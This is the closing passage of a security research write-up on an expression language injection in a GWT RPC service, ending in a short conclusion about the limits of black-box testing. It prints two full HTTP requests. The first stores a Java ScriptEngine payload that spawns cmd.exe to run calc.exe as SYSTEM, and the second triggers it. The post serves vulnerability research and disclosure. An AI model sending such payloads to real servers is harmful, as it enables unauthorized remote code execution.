 <p class="cn" markdown="1">Updating the **MibWidgetBeanName** session attribute with that code and re-triggering the **setMibNodesInfo** function, launches commands as SYSTEM against my target:</p>

{% highlight text %}
POST /someService.gwtsvc HTTP/1.1
Host: [target]
Accept: */*
X-GWT-Module-Base: 
X-GWT-Permutation: 
Cookie: JSESSIONID=[cookie]
Content-Type: text/x-gwt-rpc; charset=UTF-8
Content-Length: 366

6|0|6||45D7850B2B5DB917E4D184D52329B5D9|com.aaa.bbb.ccc.ddd.client.SomeService|sendBeanName|java.lang.String|"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("var proc=new java.lang.ProcessBuilder[\\"(java.lang.String[])\\"]([\\"cmd.exe\\",\\"/c\\",\\"calc.exe\\"]).start();")|1|2|3|4|1|5|6|
{% endhighlight %}

<p class="cn" markdown="1">Onto triggering the expression language injection...</p>

{% highlight text %}
POST /someService.gwtsvc HTTP/1.1
Host: [target]
Accept: */*
X-GWT-Module-Base: 
X-GWT-Permutation: 
Cookie: JSESSIONID=[cookie]
Content-Type: text/x-gwt-rpc; charset=UTF-8
Content-Length: 171

6|0|6||45D7850B2B5DB917E4D184D52329B5D9|com.aaa.bbb.ccc.ddd.client.SomeService|setMibNodesInfo|java.util.List|java.util.ArrayList/3821976829|1|2|3|4|1|5|6|0|
{% endhighlight %}

<img alt="SYSTEM calc" src="/assets/images/gwt_calc.png">

### Conclusion

<p class="cn" markdown="1">There is *almost* no way this vulnerability would have been discovered from a black-box perspective. Common tools such as Burp Suite have no chance of currently detecting such vulnerabilities especially considering this particular case where the string is stored in a session attribute.</p>

<p class="cn" markdown="1">As web technologies progress forward, our need for automation increases and a lack of tools, skills and knowledge in this area allows many applications to stay vulnerable to critical code execution vulnerabilities for years.</p>
